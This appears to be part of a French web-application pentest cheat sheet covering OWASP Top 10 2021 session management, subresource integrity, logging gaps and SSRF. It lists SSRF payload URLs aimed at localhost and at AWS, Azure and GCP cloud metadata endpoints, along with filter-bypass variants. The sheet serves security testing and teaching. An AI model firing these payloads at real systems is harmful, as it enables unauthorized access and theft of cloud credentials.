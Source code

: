 #### **Session Management**
```bash
# Session fixation
# 1. Obtenir session ID avant login
# 2. Forcer victime à utiliser cette session
# 3. Victime se connecte
# 4. Attaquant utilise la session fixée

# Session hijacking
# Voler cookie de session (XSS, sniffing)
# Prédire session ID (faible entropie)
```

### **A08:2021 - Software Integrity Failures**

#### **Compromission de chaîne d'approvisionnement**
```bash
# Vérifier intégrité des CDN
# Subresource Integrity (SRI) manquant
<script src="https://cdn.exemple.com/jquery.js"></script>

# Devrait être :
<script src="https://cdn.exemple.com/jquery.js" 
        integrity="sha384-HASH" 
        crossorigin="anonymous"></script>
```

### **A09:2021 - Logging Failures**

#### **Exploitation du manque de logs**
```bash
# Attaques silencieuses possibles :
• Injection SQL en aveugle
• Brute force lent
• Exfiltration progressive
• Modification de données subtile
```

### **A10:2021 - SSRF (Server-Side Request Forgery)**

#### **Techniques SSRF**
```bash
# SSRF de base
http://app-test.exemple.local/fetch.php?url=http://127.0.0.1:22
http://app-test.exemple.local/fetch.php?url=http://169.254.169.254/latest/meta-data/

# Bypass de filtres
http://app-test.exemple.local/fetch.php?url=http://localtest.me/
http://app-test.exemple.local/fetch.php?url=http://127.1/
http://app-test.exemple.local/fetch.php?url=http://[::1]/

# Cloud metadata
# AWS: http://169.254.169.254/latest/meta-data/
# Azure: http://169.254.169.254/metadata/instance?api-version=2017-04-02
# GCP: http://metadata.google.internal/computeMetadata/v1/
```
